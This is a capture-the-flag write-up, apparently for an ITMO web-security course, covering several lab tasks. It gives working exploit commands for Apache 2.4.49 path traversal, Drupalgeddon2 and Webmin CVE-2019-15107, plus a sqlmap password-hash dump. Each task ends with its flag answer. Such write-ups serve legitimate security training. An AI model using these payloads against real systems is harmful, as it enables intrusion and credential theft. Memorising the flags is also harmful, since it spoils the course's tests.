




### Nginx subdomain
#### The condition of a given task:
<code>Ваша задача найти сайт, известно, что он имеет адрес XXX.portfolio.itmo</code>

#### Solution:
We can see that 10.10.10.10:<your_port> use nginx
tryto *bruteforce vhosts* with **Host header** like this:

with wordlist from task
now we can see that *one vhost found*

it is **sharepoint.portfolio.itmo** and *in returned page we see the flag* 

Answer is: ***4aa2e40350191c15366bf5873883a22f84cbb2a1a781215bf555b154bad7eda6ca1e39efbd7c36cfc4e1f3ff3bb05dde***

***

### Apache LFI
#### The condition of a given task:
<code>Exploit this Apache and read the /flag.txt</code>

#### Solution:
VPN On
Actually we can take **banner** from `10.10.10.10:<your port>` with *nmap/nc/devtools/etc*...
`echo test | nc -nv 10.10.10.10 <your port> | grep Server`

and now we know that web-server is **Apache/2.4.49**, let's find some *vulns for this version*
In my case first link is [*https://www.opennet.ru/opennews/art.shtml?num=55924*](https://www.opennet.ru/opennews/art.shtml?num=55924)
okay lets *tryna use payload* from this post like:
`curl --data "A=|id>>/tmp/x;uname\$IFS-a>>/tmp/x" 'http://10.10.10.10:<your port>/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt' -vv` and get our *flag*!

*if you interested in wtf is going on in payload*: [https://explainshell.com](https://explainshell.com/explain?cmd=A%3D%7Cid%3E%3E%2Ftmp%2Fx%3Buname%5C%24IFS-a%3E%3E%2Ftmp%2Fx)
*can help you*

Answer is: ***74e7c5cd731740a7f99994d5009f1949459ca73452ffb71c49ad02e1a41c9552f13bd37384fb0630fd45b97d00118dff***

***

### Drupal RCE
#### The condition of a given task:
<code>Use drupalgeddon.
Flag is in /home/flag.txt</code>

#### Solution:
tryna find smth with hint in github and get it [https://github.com/ruthvikvegunta/Drupalgeddon2](https://github.com/ruthvikvegunta/Drupalgeddon2)
tryna first curl request and get the RCE then take flag
payload: `curl -k -i "https://<lab-id>.web.lms.itmo.xyz/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" --data "form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=cat /home/flag.txt"` 

Answer is: 
***bd592f5a6371f34ce71f46666afc925bb4ac2329d6efeacb3a41a50f176d76500ab0432a63592f2266abb78254c8e5f7***

***

### Webmin RCE
#### The condition of a given task:
<code>У вас есть доступ к сайту. Найдите известную уязвимость и эксплуатируйте её. Флаг в файле /root/flag.txt
\
Webmin работает по протоколу https. Так что используйте URL вида https://10.10.10.10:N/</code>

#### Solution:
VPN On
Tryna *find version* of web-server
with *any* method 4 example *nmap/burp/devtools/openssl/etc*

okay now we found out that web-server is **MiniServ/1.910**
let's find some exploits! I prefer use *github/search* for it
[https://github.com/kh4sh3i/Webmin-CVE](https://github.com/kh4sh3i/Webmin-CVE)
Okay we are interested in **CVE-2019-15107** because the **default credentials does not work** and we would like a *credentialentialness* way to hack it
tryna idk `python2 CVE_2019_15107.py https://10.10.10.10:<your port> 'cat /flag.txt'` and get our *flag*

Answer is: ***6e40081f09726c55aaccda1d4baeaaf2841074cfa9d909c8ff05068f20fb046a2873155c8bc3b7a056f9deb64cb4ea68***

***

### Log in me
#### The condition of a given task:
<code>Получите RCE и прочитайте флаг из /flag/flag.txt.
\
Подсказка: для некоторых известных CMS существуют специальные инструменты для сканирования и анализа. Часто, у них есть API, от которого не помешает получить ключ. А еще иногда агрессивный режим (agressive mode) может сильно помочь. </code>

#### Solution:
https://\<lab-id>.web.lms.itmo.xyz/wp-login.php - login page
take *api key* from [https://wpscan.com/profile/](https://wpscan.com/profile/)
tryna `sudo wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://<lab-id>.web.lms.itmo.xyz/wp-login.php --plugins-detection mixed --api-token <api-token> --detection-mode mixed -t 40`
tryna use vulnerabilities on *loginizer* plugin
[https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/http/wp_loginizer_log_sqli.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/http/wp_loginizer_log_sqli.md)
tryna use *sqlmap* for find payload or **obtain root password's hash**:
`sqlmap -u https://<lab-id>.web.lms.itmo.xyz/wp-login.php --method='POST' --data='log=&pwd=password&wp-submit=Log+In&redirect_to=&testcookie=1' -p log --prefix="', ip = LEFT(UUID(), 8), url = ( TRUE " --suffix=") -- wpdeeply" --dbms mysql --technique=T --time-sec=1 --current-db --current-user --tamper=space2comment --level=5 --risk=3 --random-agent  --batch -D wordpress -T wp_users -C user_pass --dump-all --passwords --os-shell --os-pwn`
*`-D wordpress -T wp_users -C user_pass`* we can find *without this flags*
but with this command we *obtain root password hash* and we can *brute*(but we know original) with 
`hashcat -m 400 -a 3 '<hash>' -o crached.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt ; cat crashed.txt`
next step is *log in as admin with obtained credentials* and tryna **read local file with .php plugin files like loginizer.php or smth like it**.
for the (*for example*)*loginizer* plugin and **add to any .php file** smth like this
`$current = file_get_contents('/flag/flag.txt');
file_put_contents('readme.txt', $current);`

and curl *https://\<lab-id>.web.lms.itmo.xyz/wp-content/plugins/loginizer/readme.txt to get the flag*

Answer is: ***65535b4f7530c80701d2eca0ad18a730fd6512952d5829e727f65c9e0b6924aad5b6d9a4d10e24eea8e00d03abc65ac4***

***

### Solr
#### The condition of a given task:
<code>
Flag is in /flag.txt
примечание: задание может разворачиваться примерно минуту. В это время вы будете видеть Bad Gateway. Просто подождите
</code>

#### Solution:
https://www.cybersecurity-help.cz/vdb/SB2021121345
https://github.com/kozmer/log4j-shell-poc
Answer is:
***!***

***
